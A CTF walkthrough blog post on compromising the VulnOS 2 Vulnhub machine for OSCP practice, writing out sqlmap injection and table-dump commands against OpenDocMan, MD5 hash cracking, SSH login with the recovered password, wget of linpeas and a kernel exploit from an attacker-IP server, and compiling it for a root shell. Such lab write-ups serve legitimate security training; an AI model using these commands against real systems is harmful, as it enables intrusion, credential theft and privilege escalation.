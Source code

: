 ```yaml
---
layout: post
title: "VulnOS 2"
date: 2020-08-16
ctf: true
excerpt: "Walkthrough for VulnOS 2 on Vulnhub"
tags: [OSCP, sqlmap, website enumeration, privilege escalation]
comments: false

---
```


[VulnOS 2](https://www.vulnhub.com/entry/vulnos-2,147/) a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![VulnOS 2 netdiscover](/assets/img/VulnOS1.png)

After uncovering the IP address, I ran **threader3000** and let it run its suggested nmap scan.

![VulnOS 2 threader 3000 nmap](/assets/img/VulnOS2.png)

It appears that SSH, Apache, and IRC are open on this server. Let's take a look at the website.

![VulnOS 2 website](/assets/img/VulnOS3.png)

Let's follow the link on the site and it will pull up the website shown below.

![VulnOS 2 JABC website](/assets/img/VulnOS4.png)

Next, I ran **gobuster dir -u http://[machine ip]/jabc/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php -t 50** to enumerate the website.

![VulnOS 2 gobuster](/assets/img/VulnOS5.png)

![VulnOS 2 robots.txt](/assets/img/VulnOS6.png)

Next, I looked at the **robots.txt** file, which has a wide number of disallowed entries (that turn out to be rabbit holes). After looking through this, I turned to the main Documentation page, which appeared blank, but upon selecting it all, it shows a directory (**/jabcd0cs/**) that we can navigate to and provides user credentials of **guest/guest**.

![VulnOS2 Documentation webpage](/assets/img/VulnOS7.png)

This brings up a site for a web application named OpenDocMan which is running version 1.2.7.

![VulnOS 2 OpenDocMan 1.2.7](/assets/img/VulnOS8.png)

I logged in with the credentials provided (**guest/guest**). I reviewed the files shown below but nothing of interest came out of them.

![VulnOS 2 OpenDocMan guest login](/assets/img/VulnOS9.png)

At this point, I decided to look for exploits, I used **searchsploit OpenDocMan 1.2.7** from my attacker PC which returned a result.

![VulnOS 2 searchsploit](/assets/img/VulnOS10.png)

Upon reviewing the text file (with **searchsploit -x 32075**), it appears that OpenDocMan has a SQL injection vulnerability. I ran **sqlmap --url "http://[machine ip]/jabcd0cs/ajax_udf.php?q=1&add_value=odmuser*" --dbs --level 5 --risk3** to enumerate the databases with sqlmap.

![VulnOS 2 sqlmap 1](/assets/img/VulnOS11.png)

Next, I decided to enumerate the tables on the **jabcd0cs** table. I did this with sqlmap with **sqlmap --url "http://[machine ip]/jabcd0cs/ajax_udf.php?q=1&add_value=odmuser*" -D jabcd0cs --tables --level 5 --risk3**.

![VulnOS 2 sqlmap 2](/assets/img/VulnOS12.png)

A few potential tables of interest came up. I decided to look at the **odm_user** table with **sqlmap --url "http://[machine ip]/jabcd0cs/ajax_udf.php?q=1&add_value=odmuser*" -D jabcd0cs -T odm_user --dump --level 5 --risk3**, which dumped its contents. It uncovered a password hash as indicated below.

![VulnOS 2 sqlmap 3](/assets/img/VulnOS13.png)

A quick Google search mentioned that this is likely an MD5 hash. I went to [md5online.org](https://www.md5-online.org/md5-decrypt.html) to decrypt this hash. This returned a value of **webmin1980** for the password.

![VulnOS 2 crack hash](/assets/img/VulnOS14.png)

I then tried to SSH in as the webmin user (uncovered in the sqlmap query above) and with the password of webmin1980. I was successful with connecting via SSH.

![VulnOS 2 ssh webmin](/assets/img/VulnOS15.png)

I decided to enumerate this server, in order to do so, I needed to serve up an HTTP server from my attacker pc with **python3 -m http.server**.

![VulnOS2 python3 http server](/assets/img/VulnOS16.png)

Next, from the initial foothold, I ran **cd /tmp** to go to the temporary directory, **wget http://[attacker ip]:8000/linpeas.sh** and finally **chmod +x linpeas.sh** to make this script executable.

![VulnOS 2 wget chmod](/assets/img/VulnOS17.png)

I next ran **./linpeas.sh** and it returns that the Linux version is likely exploitable and can be utilized for privilege escalation.

![VulnOS 2 linpeas results](/assets/img/VulnOS18.png)

Running **searchsploit 3.13.0** from our attacker PC returns a couple of results. The first one is a program that can be compiled. Let's copy it to our current directory on our attacker PC with **searchsploit -m 37292**.

![VulnOS 2 searchsploit 37292](/assets/img/VulnOS19.png)

Next, from our victim pc, let's run **wget http://[attacker ip]:8000/37292.c** followed by **gcc -o 37292 37292.c** to compile the program.

![VulnOS 2 wget gcc](/assets/img/VulnOS20.png)

After compiling the program, I ran **./37292** which gave us a root shell. I then ran **cd /root** followed by **ls** to list the directory contents followed by **cat flag.txt** to get the flag for this box.

![VulnOS 2 run exploit root shell](/assets/img/VulnOS21.png)

